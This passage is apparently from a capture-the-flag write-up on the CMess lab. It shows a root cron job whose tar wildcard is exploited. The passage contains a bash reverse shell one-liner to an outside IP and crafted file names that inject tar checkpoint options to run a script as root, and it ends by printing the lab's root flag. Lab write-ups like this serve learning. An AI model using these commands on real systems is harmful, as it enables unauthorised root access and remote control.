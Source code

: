
If we use linpeas again, we can notice this:

![](cybersecurity/images/Pasted%2520image%252020250428152151.png)

```
*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

We got a cronjob which runs each 2 minutes, visualizing the format of this, we can notice it is vulnerable to `wildcard injection`, let's do the following in order to get a root shell:

1. Create a `shell.sh` file inside of `/home/andre/backup`:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.6.34.159/9001 0>&1'
```

2. Craft the malicious `filenames` to get RCE:

```
echo "" > "--checkpoint=1"       
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod +x shell.sh
```

- `--checkpoint=1`: Forces `tar` to trigger a checkpoint
- `--checkpoint-action=exec=...`: Executes `shell.sh` when the checkpoint is reached.

3. Start our listener and wait for the shell:

![](cybersecurity/images/Pasted%2520image%252020250428152829.png)

![](cybersecurity/images/Pasted%2520image%252020250428152834.png)

There we go, we got root, let's read our final flag and end the CTF:

```
root@cmess:/home/andre/backup# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```


![](cybersecurity/images/Pasted%2520image%252020250428152914.png)


